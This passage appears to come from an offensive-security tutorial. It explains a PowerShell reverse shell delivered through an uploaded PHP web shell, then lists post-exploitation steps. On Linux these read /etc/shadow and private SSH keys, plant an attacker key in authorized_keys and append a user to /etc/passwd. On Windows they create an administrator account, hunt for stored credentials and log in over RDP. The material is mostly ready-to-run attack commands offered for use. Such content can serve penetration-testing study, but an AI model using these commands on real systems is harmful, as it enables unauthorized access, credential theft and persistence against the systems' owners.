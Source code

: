     - `$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '`: Adds a prompt to the output.
    - `$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)`: Converts output to bytes.
    - `$stream.Write($sendbyte,0,$sendbyte.Length)`: Sends the output back.
    - `$stream.Flush()`: Ensures data is sent.
    - `$client.Close()`: Closes the connection.
- **Usage**: `http://target.com/uploads/webshell.php?cmd=<encoded-powershell>`

---

## 8. Next Steps After Gaining a Shell

Shells are a foothold, but they’re often unstable and limited. The goal is to escalate to a **stable, native access method**.

### 8.1 Linux
- **SSH Keys**:
  ```bash
  cat /home/user/.ssh/id_rsa
  echo "ssh-rsa <your-key>" >> /home/user/.ssh/authorized_keys
  ```
  - **Line-by-Line**:
    - `cat /home/user/.ssh/id_rsa`: Displays the user’s private SSH key (if present).
    - `echo "ssh-rsa <your-key>"`: Adds your public key to `authorized_keys`.
    - `>> /home/user/.ssh/authorized_keys`: Appends to the file.
- **Credentials**:
  ```bash
  cat /etc/shadow
  echo "newuser:newpassword:1001:1001::/home/newuser:/bin/bash" >> /etc/passwd
  ```
  - **Line-by-Line**:
    - `cat /etc/shadow`: Displays hashed passwords (requires root).
    - `echo "...": Adds a new user to `/etc/passwd`.
- **Troubleshooting**:
  - Check SSH service: `systemctl status ssh`.
  - Ensure permissions: `chmod 600 /home/user/.ssh/authorized_keys`.

### 8.2 Windows
- **Add Admin User**:
  ```bash
  net user newadmin Password123 /add
  net localgroup administrators newadmin /add
  ```
  - **Line-by-Line**:
    - `net user newadmin Password123 /add`: Creates a new user `newadmin` with password `Password123`.
    - `net localgroup administrators newadmin /add`: Adds `newadmin` to the administrators group.
- **Credentials**:
  ```bash
  reg query HKLM\SOFTWARE
  type "C:\Program Files\FileZilla Server\FileZilla Server.xml"
  ```
  - **Line-by-Line**:
    - `reg query HKLM\SOFTWARE`: Searches the registry for credentials (e.g., VNC passwords).
    - `type "...": Displays the FileZilla config file, which may contain credentials.
- **Access**:
  ```bash
  xfreerdp /v:10.10.10.100 /u:newadmin /p:Password123
  ```
  - **Line-by-Line**:
    - `xfreerdp`: Invokes the FreeRDP client.
    - `/v:10.10.10.100`: Specifies the target IP.
    - `/u:newadmin`: Username.
    - `/p:Password123`: Password.

---